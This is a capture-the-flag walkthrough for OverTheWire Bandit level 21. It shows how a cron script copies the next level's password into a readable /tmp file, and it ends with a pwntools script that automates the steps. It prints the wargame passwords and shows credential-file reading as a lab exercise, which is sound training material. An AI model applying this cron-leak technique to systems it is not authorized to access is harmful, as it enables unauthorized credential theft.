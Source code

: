 # Bandit Level 21

```bash
Username: bandit21
Password: gE269g2h3mw3pwgrj0Ha9Uoqen1c9DGr
Server:   bandit.labs.overthewire.org
Port:     2220
```

First we need to connect:
```bash
ssh bandit21@bandit.labs.overthewire.org -p2220
```

Lets take a look at the cronjob:
```bash
bandit21@bandit:~$ ls -l /etc/cron.d/
total 12
-rw-r--r-- 1 root root 120 Oct 16  2018 cronjob_bandit22
-rw-r--r-- 1 root root 122 Oct 16  2018 cronjob_bandit23
-rw-r--r-- 1 root root 120 Oct 16  2018 cronjob_bandit24
bandit21@bandit:~$ cat /etc/cron.d/cronjob_bandit22 
@reboot bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null
* * * * * bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null
bandit21@bandit:~$ ls -l /usr/bin/cronjob_bandit2*
-rwxr-x--- 1 bandit22 bandit21 130 Oct 16  2018 /usr/bin/cronjob_bandit22.sh
-rwxr-x--- 1 bandit23 bandit22 211 Oct 16  2018 /usr/bin/cronjob_bandit23.sh
-rwxr-x--- 1 bandit24 bandit23 253 Oct 16  2018 /usr/bin/cronjob_bandit24.sh
bandit21@bandit:~$ cat /usr/bin/cronjob_bandit22.sh 
#!/bin/bash
chmod 644 /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
cat /etc/bandit_pass/bandit22 > /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
```

Every minute the password for level22 is being written to ```/tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv```.

Lets print it:
```bash
bandit21@bandit:~$ cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
Yk7owGAcWjwMVRwrTesJEwB7WVOiILLI
```

We got the password for the next level: **Yk7owGAcWjwMVRwrTesJEwB7WVOiILLI**

**A single script is:**
```python
#!/usr/bin/env python

from pwn import *


def main():
  shell = ssh(host='bandit.labs.overthewire.org',
            user='bandit21',
            password='gE269g2h3mw3pwgrj0Ha9Uoqen1c9DGr',
            port=2220
       )

  
  p = shell['cat /etc/cron.d/cronjob_bandit22']

  bash_script = p.split('\n')[1].split()[-3]
  log.info('Found bash script: {}'.format(bash_script))

  p = shell['cat {}'.format(bash_script)]

  pass_file = p.split('\n')[2].split()[-1]
  log.info('Found password file: {}'.format(pass_file))

  p = shell['cat {}'.format(pass_file)]

  print p

if __name__ == "__main__":
  main()
```